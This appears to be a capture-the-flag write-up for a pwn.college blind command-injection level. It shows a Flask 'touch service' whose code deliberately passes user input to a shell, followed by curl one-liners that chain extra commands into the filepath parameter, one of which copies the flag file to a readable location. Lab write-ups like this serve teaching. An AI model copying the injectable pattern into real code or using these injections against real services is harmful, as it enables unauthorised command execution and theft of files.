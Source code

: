 This level will not return the output of the command. So we'll need to do a blind injection attack.

```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def challenge():
    filepath = flask.request.args.get("filepath", "/challenge")
    command = f"touch {filepath}"
    print(f"DEBUG: {command=}")

    subprocess.run(
        command,                    # the command to run
        shell=True,                 # use the shell to run this command
        stdout=subprocess.PIPE,     # capture the standard output
        stderr=subprocess.STDOUT,   # 2>&1
        encoding="latin"            # capture the resulting output as text
    )

    return f"""
        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form><input type=text name=filepath><input type=submit value=Submit></form>
        <hr>
        <b>Ran the command: touch {filepath}</b>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config['SERVER_NAME'] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

We can test whether our injection works by doing this:

```bash
curl -v "http://challenge.localhost:80/ filepath=/tmp/testing;touch%20/tmp/testing2"
```

This did create 2 files in `/tmp`: `testing` and `testing2`. So our injection works.

We can just `cat` the flag file and pipe the output into a file in our home directory, because files created by the server is readable to us. We can just run this:

```bash
curl -v "http://challenge.localhost:80/?filepath=/tmp/testing;cat%20/flag>/home/hacker/flag"; cat flag
```

> Note: I thought there's some error message that I could exploit, like grepping a certain character to try to brute force it by making a conditional where if the grep returns an output, it exits normally, else, it exits with an error code. Turns this level doesn't return the error code or give any indication of an error.